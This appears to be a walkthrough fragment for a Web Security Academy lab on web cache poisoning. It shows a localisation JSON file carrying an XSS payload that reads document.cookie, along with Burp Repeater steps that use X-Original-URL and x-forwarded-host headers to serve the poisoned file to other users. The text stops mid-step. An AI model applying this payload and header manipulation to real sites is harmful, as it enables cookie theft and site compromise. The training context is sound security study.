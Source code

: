 ```bash
    "es": {
        "name": "español",
        "translations": {
            "Return to list": "</a><img src=1 onerror='alert(document.cookie)' />",
            "View details": "Ver detailes",
            "Description:": "Descripción:"
        }
    }
}

Store
Go to:

https://0a790006046af379c07798f1002c009d.web-security-academy.net/

Change the language drop-down menu:

Spanish
Go to: HTTP history
Find:

https://0a790006046af379c07798f1002c009d.web-security-academy.net/?localized=1

Note the session cookie:

Cookie: session=2SOKY4bpQJnL9Sy57Qe0eXpXkMLIbbUl; lang=es

Send to repeater
Find:

GET /setlang/es HTTP/1.1

Send to repeater
Send
Response:

Location: /?localized=1

Add:

X-Original-URL: /setlang\es

Send
Response:

Location: /setlang/es

Go to: Repeater
Find:

GET /?localized=1 HTTP/1.1

Make sure it is pointing to exploit server:

x-forwarded-host: exploit-0a0b000d0457f355c0ce980901370004.web-security-academy.net

Go to:

Location: /?localized=1

Change 

GET /setlang/es HTTP/1.1
```